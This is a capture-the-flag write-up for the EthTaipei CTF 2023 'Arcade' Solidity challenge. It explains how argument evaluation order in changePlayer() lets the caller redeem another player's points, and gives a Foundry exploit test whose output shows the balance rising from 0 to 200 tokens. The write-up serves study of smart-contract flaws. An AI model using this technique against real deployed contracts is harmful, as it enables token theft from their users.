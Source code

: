 # EthTaipei CTF 2023 - Arcade
- Scope  
    - Arcade.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings

### Vulnerability Details
This function calls `_setNewPlayer()` followed by `_redeem()`, and passes the old player's address to `_redeem()` the new player's points, as “indexed parameters are evaluated first in right-to-left order.”
1. Call the function `changePlayer()` and `oldPlayer` will be set to your address (you)
2. The function will then perform a call to `_setNewPlayer()` and switch to player4
3. Following, the function then call `_redeem(oldPlayer)` directly and provide oldPlayer (you) as the address to receive tokens.
(The vulnerability here is because it calls `_redeem()` instead of `redeem()`, which `redeem()` will set the player address to be msg.sender)
4. `_redeem()` will check the points of current player (player4), then then `_mint()` the corresponding tokens to the provided player address (you)
```diff
function changePlayer(address newPlayer) external onlyPlayer {
        address oldPlayer = currentPlayer;
-        emit PlayerChanged(_redeem(oldPlayer), _setNewPlayer(newPlayer));
    }
```

### Impact/Proof of Concept
1. We first fast forward 10mins and then earn 10points then redeem the 10 tokens.
2. Following, we exploit the vulnerability inside `changePlayer()` and transfer player4's 190 points to us and mint it.
```diff
function test_Exploit() public {
        vm.startPrank(you);
        console.log("balance: ",ERC20(arcade).balanceOf(you));
        vm.warp(10 minutes); // require to fast forward 10mins to be able to call earn()
        arcade.earn();
        arcade.redeem();
        arcade.changePlayer(player4);
        console.log("balance: ",ERC20(arcade).balanceOf(you));
    }
```
Results
```diff
[PASS] test_Exploit() (gas: 106286)
Logs:
  balance:  0
  balance:  200
```
